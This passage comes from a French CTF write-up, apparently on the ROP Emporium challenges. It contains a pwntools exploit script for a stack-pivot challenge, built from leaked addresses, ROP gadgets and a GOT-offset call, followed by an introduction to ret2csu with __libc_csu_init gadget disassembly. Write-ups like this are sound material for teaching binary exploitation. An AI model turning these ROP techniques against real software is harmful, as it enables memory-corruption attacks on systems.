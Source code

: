 ~~~python
print hex(leaked_addr)

payload = junk
payload += p64(pop_rax)
payload += p64(leaked_addr)
payload += p64(xchg_rax_rsp)


#payload2 += pop_rdi
#payload2 = junk
payload2 = p64(plt_foothold)
payload2 += p64(pop_rax)
payload2 += p64(got_foothold)
payload2 += mov_rax_rax
payload2 += pop_rbp
payload2 += p64(0x14e)
payload2 += add_rax_rbp
payload2 += call_rax

#p.recvuntil(">")
p.sendline(payload2)
p.recvuntil(">")
p.sendline(payload)
p.interactive()
~~~
## ret2csu 
Nous atteignions le sommet en termes de difficultés. 
Nous allons ici exploiter une vulnérabilité assez jeune du nom de **ret2csu**. 
Pour faire court, tout programme, même minimaliste intègre un morceau de `libc` linké de manière fixe. 
Cela permet d'avoir des gadgets ROP performant et surtout disponible partout !
Dans ce dernier challenge, il nous faut appeler la fonction `ret2win` mais non sans difficultés. 
Débutons par la recherche des deux gadgets intéressants dans **libc_csu_init** : 

~~~bash
0000000000400840 <__libc_csu_init>:

  400880:	4c 89 fa             	mov    rdx,r15
  400883:	4c 89 f6             	mov    rsi,r14
  400886:	44 89 ef             	mov    edi,r13d
  400889:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
  40088d:	48 83 c3 01          	add    rbx,0x1
  400891:	48 39 dd             	cmp    rbp,rbx
  400894:	75 ea                	jne    400880 <__libc_csu_init+0x40>
  400896:	48 83 c4 08          	add    rsp,0x8
  40089a:	5b                   	pop    rbx
  40089b:	5d                   	pop    rbp
  40089c:	41 5c                	pop    r12
  40089e:	41 5d                	pop    r13
  4008a0:	41 5e                	pop    r14
  4008a2:	41 5f                	pop    r15
  4008a4:	c3                   	ret
~~~
